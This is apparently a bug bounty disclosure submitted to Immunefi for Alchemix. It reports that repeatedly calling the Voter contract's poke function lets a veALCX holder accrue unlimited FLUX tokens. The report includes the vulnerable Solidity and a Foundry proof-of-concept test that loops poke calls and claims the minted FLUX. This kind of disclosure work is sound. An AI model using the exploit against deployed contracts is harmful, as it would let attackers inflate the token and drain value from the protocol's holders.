 
# veALCX holder can mint Unlimited FLUX tokens

Submitted on Sun May 19 2024 15:51:12 GMT-0400 (Atlantic Standard Time) by @OxAnmol for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31461

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
`Voter:poke` function can be called multiple times by the veALCX holder and mint unlimited flux.

## Vulnerability Details
The `Voter:poke` function is used to vote again with the same weights, effectively renewing the previous vote.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

```solidity
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
It internally calls _vote functions which is responsible for voting by looping though the provided gauge addresses and it also accrues the flux token for voters by calling Flux:accrueFlux.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412C4-L455C6

```solidity
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
       ...SNIP...
       //@audit if we call from poke the we can accrue unlimited FLUX
        IFluxToken(FLUX).accrueFlux(_tokenId);
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);

        for (uint256 i = 0; i < _poolCnt; i++) {
            address _pool = _poolVote[i];
            address _gauge = gauges[_pool];

            require(isAlive[_gauge], "cannot vote for dead gauge");

            uint256 _poolWeight = (_weights[i] * totalPower) / _totalVoteWeight;
            require(votes[_tokenId][_pool] == 0, "already voted for pool");
            require(_poolWeight != 0, "cannot vote with zero weight");
            _updateFor(_gauge);

            poolVote[_tokenId].push(_pool);

            weights[_pool] += _poolWeight;
            votes[_tokenId][_pool] += _poolWeight;
            IBribe(bribes[_gauge]).deposit(uint256(_poolWeight), _tokenId);
            _totalWeight += _poolWeight;
            emit Voted(msg.sender, _pool, _tokenId, _poolWeight);
        }

        if (_totalWeight > 0) IVotingEscrow(veALCX).voting(_tokenId);
        totalWeight += uint256(_totalWeight);
        usedWeights[_tokenId] = uint256(_totalWeight);
        lastVoted[_tokenId] = block.timestamp;

        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
   ```

If a user has locked their BPT but has never voted, they can call the `poke` function. This function attempts to renew the user's voting, but because the user never voted in the first place there is nothing to renew, it only accrues the flux for the user. The user can call this `poke` function as often as they want to accumulate unlimited flux.

## Impact Details
Users can mint an unlimited amount of FLUX, which could potentially devalue the currency and undermine the logic for boosting and early unlocks.

The FLUX token is a vital component of the system and is expected to hold some tangible value in the open market. Unlimited minting could potentially disrupt its tokenomics and make the protocol's DAO insolvent.

Imagine if such an attack occurs one year after the protocol launch. Users holding millions of dollars worth of FLUX could lose everything due to a price surge.

Based on above stated reason I believe this to be a critical issue.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188C3-L192C6
        
## Proof of concept
## Proof of Concept

Here is a simple test to show how veALCX holder can call `Voter::poke` many times and accrue unlimited flux.

paste the test in `FluxTokenTest.t.sol` and run it. 

```solidity
function testMintUnlimitedFLux() external {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), true);
        //Within the same epoch call poke function as many times as you want to earn unlimited flux
        hevm.startPrank(admin);
        // For example for are doing only 100 iterations
        for (uint256 i = 0; i < 100; i++) {
            voter.poke(tokenId);
        }
        uint256 claimableFluxAfterPoke = flux.getUnclaimedFlux(tokenId);
        flux.claimFlux(tokenId, claimableFluxAfterPoke);
        console2.log("Flux Stolen: ", flux.balanceOf(admin));
        vm.stopPrank();
    }
```

## Output
Here you can see `98.839805301052500300` FLUX is stolen just by calling the   `poke` function 100 times. 

```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testMintUnlimitedFLux() (gas: 2867107)
Logs:
  Flux Stolen:  98839805301052500300

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 93.06s (65.30s CPU time)

Ran 1 test suite in 93.95s (93.06s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```